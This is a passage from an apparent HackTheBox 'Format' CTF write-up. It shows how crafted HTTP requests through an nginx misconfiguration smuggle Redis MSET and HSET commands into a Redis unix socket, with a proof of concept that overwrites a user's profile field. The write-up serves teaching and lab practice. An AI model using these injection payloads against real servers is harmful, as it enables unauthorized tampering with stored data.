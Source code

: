 ```
GET TEST.microbucket.htb/app.js HTTP/1.0
Host: localhost

```

The post continues showing how to write keys. I can send a request that isn’t a valid HTTP verb (like GET or POST), and it still gets processed and passed by nginx. If I send this HTTP request:

```
MSET /static/unix:%2fvar%2frun%2fredis%2f/redis.sock:hacked%20%22true%22%20/anything.js HTTP 1.1
Host: app.microbucket.htb

```

That will reach the socket as:

```
MSET hacked "true" microbucket.htb/anything.js HTTP/1.0
Host: localhost

```

That will set the key `hacked` to true (and likely crash the rest of the command).

This is taking advantage of the fact that `MSET` allows for setting multiple keys in the same line.

There’s more in the post about getting RCE from this, but I wasn’t able to make that work on Format.

#### Redis Write POC

The keys I noted above were set with `HSET`, which according to the [docs](https://redis.io/commands/hset/), takes a key followed by field and value pairs. That should work similar to above, but rather than just key / value, I’ll pass field as well.

I’ll send:

```
HSET /static/unix:%2fvar%2frun%2fredis%2fredis.sock:oxdf%20%22first-name%22%20%22modified%22%20/0xdf.js HTTP/1.1
Host: microblog.htb

```

This will become:

```
HSET oxdf "first-name" "modified" HTTP/1.0
Host: localhost

```

I’ll send this, and the response is a crash:

![image-20230515160237326](https://0xdf.gitlab.io/img/image-20230515160237326.png)

But, on refresh, my first name is changed!

![image-20230515160255527](https://0xdf.gitlab.io/img/image-20230515160255527.png)
